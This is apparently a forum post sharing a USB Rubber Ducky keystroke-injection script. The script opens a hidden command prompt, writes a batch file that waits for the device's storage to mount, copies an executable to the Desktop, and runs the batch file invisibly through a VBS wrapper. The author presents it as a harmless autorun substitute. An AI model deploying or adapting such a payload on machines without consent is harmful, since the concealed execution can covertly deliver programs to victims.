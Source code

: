 The following is something I have been working on based on the payload "Runexe from SD". This payload will work on the twin duck firmwares by executing a script that waits for the ducky to mount the removable storage. The payload also uses some of the member googleknowsbest's code. The for loop which polls for the ducky is the code to which I am referring to. This payload is not hacking related per say, but it could be useful to those who miss autorun files, and sneaker nets.

```
REM Author: overwraith
REM Name: RunEXE.txt
REM Purpose: Wait for ducky mass storage to mount, then copy file to desktop. 
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 75
DELAY 3000
GUI R
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER
STRING for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)
ENTER
STRING if Exist %DUCKYdrive% (
ENTER
STRING goto :break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto :while1
ENTER
STRING :break
ENTER
REM Continue script.
REM Remove the next two lines if you don't place your payloads in separate folders. 
STRING set DUCKYdrive=%DUCKYdrive%\CopyFileToDesktop\
ENTER
STRING copy %DUCKYdrive%HelloWorld.exe %userprofile%\Desktop\HelloWorld.exe
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-

background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
STRING EXIT
ENTER
```

There is a group of lines you may wish to remove if you are operating from the root of the ducky, I have the script running out of a folder on the ducky, not the root.

```
REM Remove the next two lines if you don't place your payloads in separate folders. 
STRING set DUCKYdrive=%DUCKYdrive%\CopyFileToDesktop\
ENTER
```
The script copies HelloWorld.exe out of the folder "CopyFileToDesktop".